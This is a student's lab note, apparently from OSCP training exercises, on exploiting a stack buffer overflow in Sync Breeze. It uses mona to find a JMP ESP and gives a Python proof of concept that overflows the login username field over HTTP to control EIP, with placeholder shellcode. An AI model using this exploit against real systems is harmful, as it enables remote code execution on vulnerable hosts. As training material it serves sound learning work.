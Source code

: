 11.2.7.1

# 11.2.7.1
## 11.2.7.1.1. Locate the JMP ESP that is usable in the exploit.

Run `!mona modules` to see the different modules used. We see the syncbrs.exe and libssp.dll has SEH, ASLR, and NXCompat disabled. However, syncbrs.exe will always contain null characters because it loads at 0x004XXXXX address.

### We will use libssp.dll because its address range won’t always contain bad characters 0x10000000
![43e68a2ff19411bd5ae1db8d60dded06.png](:/6a8585efd7d64c76b73432f52d25da4f)

### Find the opcode equivalent of JMP ESP using msf-nasm_shell commands. We see the code is FFE4
![1cca3222fdb51ac5a6e509bb9a324a1c.png](:/c491d586511245708df1317f6cdf0d3d)

### Now use mona.py to find  an address. We will input the following line:
`!mona find -s "\xff\xe4" -m "libspp.dll"`
![b24b4ea9ec82adf3b9795df26ddef2e8.png](:/ee6aa0976bf847be921c55f720e2c88d)


## 11.2.7.1.2. Update your PoC to include the discovered JMP ESP, set a breakpoint on it, and follow the execution to the placeholder shellcode.

Enter the expression to follow (ie. the JMP ESP address) and set a breakpoint (press F2) on that address.
![b851c7d5ae3f2dab0b932edb040f9b18.png](:/6d3793ab083d400eaa445e890beabb07)


### Here is the code with the JMP ESP added in
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 8_eip_jmp_esp.py 
#!/usr/bin/python
import socket
import sys

try:
    print "\nSending evil buffer..."

    filler = "A" * 780
    eip = "\x83\x0c\x09\x10"
    offset = "C" * 4
    buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))
    
    inputBuffer = filler + eip + offset + buffer
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()
```

### The crash. EIP is 10090C83
![8c9a83f57a04ee6891b6c30cfaa25d70.png](:/528e6f08914e454e9591dd40a124fd30)

id: aaa68e31eba3458eacf7d928f84d551d
parent_id: 5de65b5b4c8440b3a8961477132c0b21
created_time: 2020-09-27T10:19:27.743Z
updated_time: 2020-09-27T10:19:29.221Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-27T10:19:27.743Z
user_updated_time: 2020-09-27T10:19:29.221Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1